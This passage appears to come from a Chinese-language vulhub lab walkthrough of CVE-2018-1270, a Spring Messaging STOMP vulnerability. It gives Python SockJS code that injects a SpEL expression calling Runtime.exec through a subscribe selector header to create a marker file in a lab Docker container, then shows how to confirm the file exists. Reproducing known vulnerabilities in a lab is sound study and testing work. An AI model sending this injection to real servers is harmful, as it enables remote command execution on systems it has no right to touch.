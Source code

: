 ```
sockjs = SockJS('http://192.168.188.133:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/cve-2018-1270_success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)

```

![image-20211219175743468](https://s2.loli.net/2022/03/26/OGBoeyxjqXi98zn.png)

```
sudo docker ps   查看docker容器名字
```

进入容器查看 sudo docker exec -it  容器名  /bin/bash ，可以看见一个CVE-2018-1270_success已经创建。

![](https://s2.loli.net/2022/03/26/OGBoeyxjqXi98zn.png)

## 补充

SockJS:SockJS是一个浏览器上运行的JavaScript库，如果浏览器不支持WebSocket，该库可以模拟对WebSocket的支持，实现浏览器和Web服务器之间低延迟、全双工、跨域的通讯通道。

